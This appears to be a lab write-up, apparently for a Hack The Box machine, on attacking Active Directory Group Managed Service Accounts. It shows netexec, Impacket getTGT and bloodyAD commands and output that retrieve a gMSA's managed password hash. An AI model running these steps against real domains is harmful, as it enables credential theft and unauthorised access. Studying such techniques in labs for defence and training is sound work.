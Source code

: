 
Group Managed Service Accounts (gMSAs) in Windows are special service accounts that enhance security and simplify management in Active Directory environments. They automatically handle password updates, ensuring complex and regularly changing passwords without manual intervention. gMSAs also manage Service Principal Names (SPNs) and can be used across multiple servers within the same domain, allowing services to securely share a common account. By reducing administrative tasks and minimizing the risk of credential theft, gMSAs offer an effective solution for managing service account credentials.

![[Pasted image 20241204125650.png]]

```bash
garffff@garffff:~$ nxc ldap 10.129.121.239 -u 'fs01$' -p 'fs01' -k --gmsa
LDAP        10.129.121.239  389    10.129.121.239   [-] LDAPs connection to ldaps://10.129.121.239 failed - (104, 'ECONNRESET')
LDAP        10.129.121.239  389    10.129.121.239   [-] Even if the port is open, LDAPS may not be configured
```

Should the above error happen, do the following:

```bash
garffff@garffff:~$ getTGT.py 'vintage.htb/fs01$:fs01'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in fs01$.ccache

garffff@garffff:~$ export KRB5CCNAME=fs01.ccache 
garffff@garffff:~$ klist
Ticket cache: FILE:fs01.ccache
Default principal: fs01$@VINTAGE.HTB

Valid starting     Expires            Service principal
04/12/24 12:49:42  04/12/24 22:49:42  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 05/12/24 12:49:42

garffff@garffff:~$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.129.199.135 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```